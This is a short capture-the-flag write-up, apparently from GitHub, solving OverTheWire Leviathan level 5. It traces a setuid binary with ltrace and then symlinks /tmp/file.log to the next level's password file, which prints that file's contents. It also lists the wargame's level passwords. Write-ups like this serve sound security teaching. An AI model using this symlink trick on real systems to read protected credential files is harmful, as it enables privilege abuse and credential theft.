 # Level 5

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Leviathan

## Provided Materials

- username: `leviathan5`
- password: `EKKlTF1Xqs`

## Solution

Let's see what do we have:

```sh
leviathan5@gibson:~$ ls -al
total 36
drwxr-xr-x  2 root       root        4096 Oct  5  2023 .
drwxr-xr-x 83 root       root        4096 Oct  5  2023 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 15132 Oct  5  2023 leviathan5
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```

Let's execute `leviathan5` with `ltrace`:

```sh
leviathan5@gibson:~$ ltrace ./leviathan5 
__libc_start_main(0x8049206, 1, 0xffffd654, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                     = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)               = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

It uses `fopen()` on `/tmp/file.log` file. So we can create symlink to `/etc/leviathan_pass/leviathan6`:

```sh
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
YZ55XPVk2l
```

## Password

`leviathan6`:`YZ55XPVk2l`

*Created by [bu19akov](https://github.com/bu19akov)*